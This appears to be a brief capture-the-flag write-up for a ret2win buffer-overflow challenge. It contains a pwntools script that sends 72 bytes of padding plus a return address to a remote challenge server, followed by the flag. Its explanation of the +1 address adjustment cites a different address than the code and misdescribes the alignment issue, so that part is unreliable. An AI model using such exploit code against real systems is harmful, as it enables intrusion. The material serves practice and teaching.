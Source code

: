 ![image](https://github.com/user-attachments/assets/f91b05ae-768e-4842-945e-de3e12fdd3d6)

To talk about this task, which is a classic Return-to-Win (ret2win) exploitation challenge.
Here is the solver :

```Python
#KOLLLLLL W WAKKELLLL
from pwn import *
p = remote("51.77.140.155" ,1329)
payload=b'A'*72+p64(0x40132d+1)
p.sendline(payload)
p.interactive()

```
The reason I add +1 to the address 0x00401351 in my exploit is to ensure that the address is aligned to a 16-byte boundary, which is required by the movaps instruction. Since movaps cannot work with misaligned addresses, adjusting the address ensures that the CPU can execute the instruction correctly without causing crashes or exceptions.

![image](https://github.com/user-attachments/assets/a48e364c-58b1-4890-94fb-49f72d9feca2)

FLAG : Securinets{sh3_1s_th3_FL4G}

few resources :
https://medium.com/@arjun1gu/zh3r0-ctf-ret2win-official-writeup-38ae03a6a9f6

https://ctfcookbook.com/docs/pwn/return-to-win/
